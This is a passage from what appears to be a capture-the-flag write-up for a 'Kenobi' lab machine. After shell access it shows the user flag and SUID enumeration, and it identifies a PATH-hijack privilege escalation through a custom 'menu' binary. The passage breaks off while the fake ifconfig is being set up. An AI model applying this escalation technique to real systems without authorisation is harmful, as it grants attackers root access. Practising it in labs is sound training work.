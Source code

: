 ```bash
Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 
```

---
## Shell as Kenobi

Once inside we can read the `user.txt` flag at `/home/kenobi/user.txt`.

```bash
kenobi@kenobi:~$ cat user.txt 
d0b0*****b6caa532a83*******24899
```

Checking `Kenobi` groups we see that we are inside the `sudo` group, but unfortunately we don't have the `Kenobi` user, so let's keep enumerating.

```bash
kenobi@kenobi:~$ id
uid=1000(kenobi) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

You might thinking that we are also inside the `lxd` group, but unfortunately `lxd` service inactive.

We can't see any output from `sudo -l` since we don't own the kenobi's password, so after looking for `SUID` binaries, there is a unusual binary named `menu`, let's see what it does.

```bash
kenobi@kenobi:/$ strings /usr/bin/menu

<REDACTED>

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig

<REDACTED>
```

Seems like the script allow us to execute a predefined command, but there is a vulnerability in this binary, it't not using the full path to the binaries, so we should be able to exploit a **path hijack**.

In order to execute this, let's create a file named `ifconfig` inside the `/tmp` folder, where it's content is the same as `/bin/bash`.
